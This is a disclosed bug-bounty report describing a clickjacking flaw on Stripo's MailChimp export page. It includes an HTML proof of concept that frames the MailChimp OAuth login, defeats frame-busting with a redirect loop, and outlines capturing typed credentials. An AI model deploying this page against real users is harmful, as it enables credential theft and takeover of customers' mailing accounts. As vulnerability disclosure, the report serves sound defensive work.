 # Clickjacking on my.stripo.email for MailChimp credentials 

## Report Details
- **Report ID**: 737625
- **URL**: https://hackerone.com/reports/737625
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-14T19:41:04.154Z
- **Disclosed**: 2020-01-08T08:55:51.475Z

## Reporter
- **Username**: jasongardner
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripo

## Vulnerability Information
Clickjacking is a malicious hacking technique where attackers can acquire sensitive data.

Through simple social engineering techniques these links can be sent out to unsuspecting customers to steal their credentials or perform actions on their accounts.

For this example I saw that where I goto export to MailChimp that page is vulnerable to clickjacking and it is a page where the user enters a username and password which would grant me whatever access that user has if I just feed the data from a keylogger on the HTML into another page with tables to store the info.

Here is the HTML code I have embedded on my sites.google.com link:

<html>
<head>
<title>Clickjack test page</title>
</head>
<body>
<p>When you enter your e-mail and login here it will be captured and the attacker can now gain access to your customer e-mail lists</p>
	
<iframe src= "https://login.mailchimp.com/oauth2/authorize?response_type=code&client_id=350877244304&redirect_uri=https%3A%2F%2Fmy.stripo.email%2Fcabinet%2Fexportservice%2Fv1%2Fmailchimpauth.html%3FaccountId%3D2085372" width="1200" height="2500"></iframe>

	<script language="JavaScript" type="text/javascript">
    //<![CDATA[
        window.onbeforeunload = function(){
            return 'Are you sure you want to leave?';
        };
    //]]>
html2canvas(document.querySelector("#capture")).then(canvas => {
    document.body.appendChild(canvas)
});
</script>
	</body>
<script>
var prevent_bust = 0;
window.onbeforeunload = function() {
prevent_bust++;
};
setInterval(
function() {
if (prevent_bust > 0) {
prevent_bust -= 2;
window.top.location = "https://sites.google.com/view/jason-gardner-app-dev/xss-test-poc";


}
}, 1);
</script>

</html>

## Impact

An attacker could send out malicious emails to entire customer lists, delete accounts or go in and take whatever billing information exists within the MailChimp account.

## Attachments
- Screen_Shot_2019-11-14_at_11.36.54_AM.png
